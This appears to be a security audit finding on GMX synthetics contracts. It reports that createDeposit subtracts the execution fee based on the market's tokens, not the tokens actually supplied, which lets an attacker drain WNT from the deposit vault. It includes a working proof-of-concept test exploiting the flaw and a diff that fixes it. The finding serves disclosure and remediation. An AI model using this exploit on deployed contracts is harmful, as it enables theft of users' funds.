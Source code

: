 n33k

high

# WNT in depositVault can be drained by abusing initialLongToken/initialShortToken of CreateDepositParams

## Summary

The attacker can abuse the `initialLongToken`/`initialShortToken` of `CreateDepositParams` to drain all the WNT from depositVault.

## Vulnerability Detail

```solidity
    function createDeposit(
        DataStore dataStore,
        EventEmitter eventEmitter,
        DepositVault depositVault,
        address account,
        CreateDepositParams memory params
    ) external returns (bytes32) {
        Market.Props memory market = MarketUtils.getEnabledMarket(dataStore, params.market);

        uint256 initialLongTokenAmount = depositVault.recordTransferIn(params.initialLongToken);
        uint256 initialShortTokenAmount = depositVault.recordTransferIn(params.initialShortToken);

        address wnt = TokenUtils.wnt(dataStore);

        if (market.longToken == wnt) {
            initialLongTokenAmount -= params.executionFee;
        } else if (market.shortToken == wnt) {
            initialShortTokenAmount -= params.executionFee;
```

The `initialLongToken` and `initialShortToken` of `CreateDepositParams` can be set to any token address and there is no check for the `initialLongToken` and `initialShortToken` during `createDeposit`. The attacker can set `initialLongToken`/`initialShortToken` to a token(USDC e.g.) with less value per unit than WNT and for a market with `market.longToken == wnt` or `market.shortToken == wnt`, `params.executionFee` will be wrongly subtracted from `initialLongTokenAmount` or `initialLongTokenAmount`. This allows the attacker to have a controllable large `params.executionFee` by sending tokens with less value. By calling `cancelDeposit`, `params.executionFee` amount of WNT will be repaid to the attacker.

Here is a PoC test case that drains WNT from depositVault:

```diff
diff --git a/gmx-synthetics/test/router/ExchangeRouter.ts b/gmx-synthetics/test/router/ExchangeRouter.ts
index 7eca238..c40a71c 100644
--- a/gmx-synthetics/test/router/ExchangeRouter.ts
+++ b/gmx-synthetics/test/router/ExchangeRouter.ts
@@ -103,6 +103,82 @@ describe("ExchangeRouter", () => {
     });
   });
 
+  it("createDepositPoC", async () => {
+    // simulate normal user deposit
+    await usdc.mint(user0.address, expandDecimals(50 * 1000, 6));
+    await usdc.connect(user0).approve(router.address, expandDecimals(50 * 1000, 6));
+    const tx = await exchangeRouter.connect(user0).multicall(
+      [
+        exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(11, 18)]),
+        exchangeRouter.interface.encodeFunctionData("sendTokens", [
+          usdc.address,
+          depositVault.address,
+          expandDecimals(50 * 1000, 6),
+        ]),
+        exchangeRouter.interface.encodeFunctionData("createDeposit", [
+          {
+            receiver: user0.address,
+            callbackContract: user2.address,
+            market: ethUsdMarket.marketToken,
+            initialLongToken: ethUsdMarket.longToken,
+            initialShortToken: ethUsdMarket.shortToken,
+            longTokenSwapPath: [ethUsdMarket.marketToken, ethUsdSpotOnlyMarket.marketToken],
+            shortTokenSwapPath: [ethUsdSpotOnlyMarket.marketToken, ethUsdMarket.marketToken],
+            minMarketTokens: 100,
+            shouldUnwrapNativeToken: true,
+            executionFee,
+            callbackGasLimit: "200000",
+          },
+        ]),
+      ],
+      { value: expandDecimals(11, 18) }
+    );
+
+    // depositVault has WNT balance now
+    let vaultWNTBalance = await wnt.balanceOf(depositVault.address);
+    expect(vaultWNTBalance.eq(expandDecimals(11, 18)));
+
+    // user1 steal WNT from depositVault
+    await usdc.mint(user1.address, vaultWNTBalance.add(1));
+    await usdc.connect(user1).approve(router.address, vaultWNTBalance.add(1));
+
+    // Step 1. create deposit with malicious initialLongToken
+    await exchangeRouter.connect(user1).multicall(
+      [
+        exchangeRouter.interface.encodeFunctionData("sendTokens", [
+          usdc.address,
+          depositVault.address,
+          vaultWNTBalance.add(1),
+        ]),
+        exchangeRouter.interface.encodeFunctionData("createDeposit", [
+          {
+            receiver: user1.address,
+            callbackContract: user2.address,
+            market: ethUsdMarket.marketToken,
+            initialLongToken: usdc.address,       // use usdc instead of WNT
+            initialShortToken: ethUsdMarket.shortToken,
+            longTokenSwapPath: [],
+            shortTokenSwapPath: [],
+            minMarketTokens: 0,
+            shouldUnwrapNativeToken: true,
+            executionFee: vaultWNTBalance,
+            callbackGasLimit: "0",
+          },
+        ]),
+      ],
+    );
+
+    // Step 2. cancel deposit to drain WNT
+    const depositKeys = await getDepositKeys(dataStore, 0, 2);
+    // const deposit = await reader.getDeposit(dataStore.address, depositKeys[1]);
+    // console.log(deposit);
+    // console.log(depositKeys[1]);
+    await expect(exchangeRouter.connect(user1).cancelDeposit(depositKeys[1]));
+
+    // WNT is drained from depositVault
+    expect(await wnt.balanceOf(depositVault.address)).eq(0);
+  });
+
   it("createOrder", async () => {
     const referralCode = hashString("referralCode");
     await usdc.mint(user0.address, expandDecimals(50 * 1000, 6));
```

## Impact

The malicious user can drain all WNT from depositVault.

## Code Snippet

https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/deposit/DepositUtils.sol#L77-L80

## Tool used

Manual Review

## Recommendation

```diff
diff --git a/gmx-synthetics/contracts/deposit/DepositUtils.sol b/gmx-synthetics/contracts/deposit/DepositUtils.sol
index fae1b46..2811a6d 100644
--- a/gmx-synthetics/contracts/deposit/DepositUtils.sol
+++ b/gmx-synthetics/contracts/deposit/DepositUtils.sol
@@ -74,9 +74,9 @@ library DepositUtils {
 
         address wnt = TokenUtils.wnt(dataStore);
 
-        if (market.longToken == wnt) {
+        if (params.initialLongToken == wnt) {
             initialLongTokenAmount -= params.executionFee;
-        } else if (market.shortToken == wnt) {
+        } else if (params.initialShortToken == wnt) {
             initialShortTokenAmount -= params.executionFee;
         } else {
             uint256 wntAmount = depositVault.recordTransferIn(wnt);
```
